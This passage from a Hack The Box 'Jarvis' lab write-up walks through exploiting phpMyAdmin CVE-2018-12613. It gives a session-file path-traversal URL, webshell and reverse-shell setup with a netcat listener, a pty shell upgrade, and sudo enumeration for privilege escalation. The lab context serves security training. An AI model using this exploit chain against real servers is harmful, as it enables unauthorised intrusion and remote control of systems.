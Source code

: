 ![CVE-2018-12613 Setp 1.](/posts/images/hack-the-box-jarvis-writeup/if_1.png)
**Figure 4:** Paset in malicious query containing php code, click 'go'.

![CVE-2018-12613 Setp 2.](/posts/images/hack-the-box-jarvis-writeup/if2.png)
**Figure 5:** Query executed, malicious php code stored in database.

To execute the code we've just stored, we must first determine the value of our session variable, and append it to the url `http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_FILLMEINS`

For this we use the [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) Firefox Extension, and check the value of the `phpMyAdmin` cookie.

![CVE-2018-12613 Setp 2.](/posts/images/hack-the-box-jarvis-writeup/if3.png)
**Figure 6:** phpMyAdmin session.

Now that the session variable is known we navigate to the url in order to execute our php code.

```
http://10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_rgaqjb5lk26btifbs4alv75bj4hm1ljj
```

![CVE-2018-12613 Setp 2.](/posts/images/hack-the-box-jarvis-writeup/if4.png)
**Figure 7:** php execution.


We now have our p0wny webshell available on `http://10.10.10.143/shell.php`. Our reverse shell is also available, and that's what we're going to use mostly for the rest of the box. Start netcat to have it listen `nc -lvp 4444`. Then call `rshell.php` either by navigating to `http://10.10.10.143/rshell.php`, or via the web shell. We issue the following command to get a more interactive shell.

```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![php reverse shell.](/posts/images/hack-the-box-jarvis-writeup/ncshell1.png)
**Figure 8:** php reverse shell as www-data user.


### Linux Smart Enumeration

After grabbing Linux Smart Enumeration we run it and discover two particularly interesting things.

![Linux Smart Enumeration.](/posts/images/hack-the-box-jarvis-writeup/lse.png)
**Figure 9:** Linux Smart Enumeration.
 
We see that there are uncommon setuid binaries, and that the user `www-data` has access to run an administration tool as `pepper` (without entering a password).

```console
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```


## User Flag
